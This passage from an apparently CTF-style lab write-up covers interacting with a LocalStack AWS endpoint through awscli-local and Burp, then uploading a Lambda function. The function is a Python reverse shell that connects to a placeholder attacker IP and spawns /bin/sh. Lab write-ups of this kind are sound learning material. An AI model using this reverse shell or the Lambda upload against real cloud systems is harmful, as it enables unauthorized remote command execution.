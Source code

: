 ![Screenshot from 2022-03-21 23-21-51](https://user-images.githubusercontent.com/79413473/159334051-189c917c-f367-4a20-8291-4d20dc7f6fb7.png)

Also df suggested a great tool [awscli-local](https://github.com/localstack/awscli-local) in order to avoid typing -**-endpoint-url localhost:4566** repeatedly in local environment.

So after setting **HTTP_PROXY** & **HTTPS_PROXY** to my burp i can monitor aws requests

![Screenshot from 2022-03-21 23-25-45](https://user-images.githubusercontent.com/79413473/159334898-ab1fae8e-3956-43e6-878c-00cb28afd8d5.png)

in burp 

![Screenshot from 2022-03-21 23-27-04](https://user-images.githubusercontent.com/79413473/159334973-8842d334-1d60-4c52-82da-5cf1726e876d.png)

Let's create a lambda function for our instance, again aws docs were to help i created a python script to upload which i though i can get shell after invoking it. Unfortunately that didn't work out as i did something wrong in creating it and it always errored out but id did the intended work so i left it. In ippsec's [video](https://www.youtube.com/watch?v=aWXfEDIYZu8) he did that with perfection you can take a look there. Let's create function and monitor the request with python runtime and script being function.py which i zipped to function.zip

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("My-IP",8088));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```
### Creating lambda function:

```
awslocal lambda create-function --function-name "test-function" --zip-file fileb://function.zip --runtime python3.9 --role arn:aws:iam::123456789012:role/lambda-ex
``` 

Response:
```
{
    "FunctionName": "test-function",
    "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:test-function",
    "Runtime": "python3.9",
    "Role": "arn:aws:iam::123456789012:role/lambda-ex",
    "Handler": "handler.handler",
    "CodeSize": 324,
    "Description": "",
    "Timeout": 3,
    "LastModified": "2022-03-21T18:06:52.203+0000",
    "CodeSha256": "iBPuas5OAWqBV+RPLfbScTWPlzIKGqW4XFmnTwSLO7o=",
    "Version": "$LATEST",
    "VpcConfig": {},
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "RevisionId": "fff3a263-b409-41e1-938d-97b7a80af9fd",
    "State": "Active",
    "LastUpdateStatus": "Successful",
    "PackageType": "Zip"
}
```
